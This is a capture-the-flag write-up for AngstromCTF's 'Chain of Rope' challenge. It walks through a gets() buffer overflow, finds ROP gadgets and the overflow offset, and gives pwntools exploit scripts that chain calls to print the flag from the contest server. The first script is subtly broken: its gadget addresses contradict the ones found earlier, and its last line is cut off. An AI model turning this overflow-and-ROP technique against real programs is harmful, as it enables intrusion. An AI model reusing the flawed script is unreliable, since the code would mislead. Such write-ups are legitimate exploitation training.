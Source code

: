 ## AngstromCTF: Chain of Rope
> defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?


##### *tl;dr: chaining rop gadgets*
#### Guessing from the challenge title itself, this challenge will be solved by chaining together rop gadgets found inside the binary to get the flag. For the exploit, it can be done the hard way or the much easier way. I'll discuss the hard way first to have an understading on how to perform a simple rop chain on a 64-bit binary. 
#### Since we have the source code, first thing to do is to examine it:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int userToken = 0;
int balance = 0;

int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

void getInfo () {
	printf("Token: 0x%x\nBalance: 0x%x\n", userToken, balance);
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	char name [32];
	printf("--== ROPE CHAIN BLACK MARKET ==--\n");
	printf("LIMITED TIME OFFER: Sending free flag along with any purchase.\n");
	printf("What would you like to do?\n");
	printf("1 - Set name\n");
	printf("2 - Get user info\n");
	printf("3 - Grant access\n");
	int choice;
	scanf("%d\n", &choice);
	if (choice == 1) {
		gets(name);
	} else if (choice == 2) {
		getInfo();
	} else if (choice == 3) {
		printf("lmao no\n");
	} else {
		printf("I don't know what you're saying so get out of my black market\n");
	}
	return 0;
}
```
#### From what we can analyze from the code, the entry point for our exploit will be the vulnerable gets call for the name variable when selecting the first user choice then we can proceed to jump to any function we want. But we can't do that, since the function we really need to call, `flag`, has arguments that need to be checked first before it is executed. To do that, we need to jump to the necessary functions, in a particular order, to set the needed variables. So our chain will go something like: `buffer overflow - call authorize to set userToken - call addBalance and provide the pin argument - finally call flag with the needed arguments`
#### It won't be that easy tho, since unlike 32-bit binaries which place the arguments on the stack, 64-bit binaries place arguments on registers - here is where the need for rop gadgets pop in. 
```
$ ROPgadget --binary chain_of_rope
  [...]
  0x00000000004008f3 : pop rdi ; ret
  0x00000000004008f1 : pop rsi ; pop r15 ; ret
```
#### These are the rop gadgets that we need since the functions require two arguments at most and these arguments must be placed into the rdi and rsi registers. Before we proceed to make our exploit, we need to find which offset to control rip. 
```
$ gdb ./chain_of_rope
  gdb-peda$ pattern create 100
  [...]
  
  gdb-peda$ r
  --== ROPE CHAIN BLACK MARKET ==--
  LIMITED TIME OFFER: Sending free flag along with any purchase.
  What would you like to do?
  1 - Set name
  2 - Get user info
  3 - Grant access
  1
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

  Program received signal SIGSEGV, Segmentation fault.
  [...]
  
  gdb-peda$ x/wx $rsp
  0x7fffffffddd8:	0x41416341
  
  gdb-peda$ pattern offset 0x41416341
  1094804289 found at offset: 56
```
#### And now that we have what we need, we'll now make the exploit. So what we'll need to do is to overflow the buffer and jump to the authorize function to set the userToken variable, next we use the pop rdi gadget for us to place the pin argument for addBalance into the rdi register, then we use the `pop rdi` and `pop rsi; pop r15` gadgets to place the pin and secret arguments for the flag function, then provide a dummy address for the program to return to (r15) and finally get the flag. Now to craft our exploit:
```python
from pwn import *

#: Connect to chall server
HOST = 'shell.actf.co'
PORT = 19400
binary = ELF('./chain_of_rope')
rop = ROP(binary)
# p = binary.process()
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 56
authorize = binary.symbols['authorize']
addBalance = binary.symbols['addBalance']
flag = binary.symbols['flag']

#: Gadgets
pop_rdi = p64(0x4008f3)
pop_rsi = p64(0x4008f1)

#: Rop exploit v1
context.clear(arch='amd64')
rop.raw(offset)
rop.raw(p64(authorize))
rop.raw(0x401403)
rop.raw(p64(0xdeadbeef))
rop.raw(p64(addBalance))
rop.raw(0x401403)
rop.raw(p64(0xba5eba11))
rop.raw(0x401401)
rop.raw(p64(0xbedabb1e))
rop.raw(p64(0x0))
rop.raw(p64(flag))
exploit = rop.exploit()

#: Send payload
p.sendline('1')
p.sendline(exploit)
p.interactive(
```
#### And there we have it. But we could also do this through a much simpler approach using rop.calls from pwntools. We only need to call the functions and provide their arguments, pwntools chains it for us. 
```python
#: ROP exploit v2
context.clear(arch='amd64')
rop.call(authorize)
rop.call(addBalance, [0xdeadbeef])
rop.call(flag, [0xba5eba11, 0xbedabb1e])
print(rop.dump())
exploit = offset + rop.chain()
```
#### Running our exploit script, we now get our flag! 
```actf{dark_web_bargains}```
